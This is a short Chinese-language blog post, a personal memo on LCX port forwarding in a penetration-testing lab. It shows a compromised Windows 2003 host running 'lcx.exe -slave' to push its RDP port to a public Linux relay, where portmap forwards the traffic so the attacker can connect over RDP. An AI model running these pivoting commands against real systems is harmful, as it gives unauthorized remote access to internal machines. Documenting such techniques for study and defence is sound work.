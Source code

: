 ```yaml
---
layout:     post
title:      LCX端口转发
subtitle:   win2003-公网linux-本地RDP连接
date:       2019-05-25
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - LCX
    - 端口转发
    - 内网渗透
---
```


## LCX端口转发

>LCX端口转发是在渗透过程中经常会用到的一种技术手段，使用方法也比较简单，但是今天用的时候突然忘了该怎么使。
>所以还是做个记录，方便以后查阅

### 实验环境
    * win2003  （肉鸡）
    * 公网linux  （转发机器）
    * 本机   （攻击机）

### 过程记录


    * 在肉鸡上传lcx.exe，并在lcx.exe目录下执行命令<br>
    `lcx.exe -slave 45.77.43.77 2222 192.168.17.128 3389`
    >将本机的3389端口转发到45.77.43.77的2222端口

    ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215123.png)

    * 在公网的linux机器上执行命令<br>
    `./portmap -m 2 -p1 2222 -p2 55`
    >监听本地的2222端口，并将其数据转发到55端口

    ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215444.png)

    * 在本机使用mstsc连接45.77.43.77的55端口

    ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215653.png)

### 连接成功

    ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215810.png)

    ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215820.png)



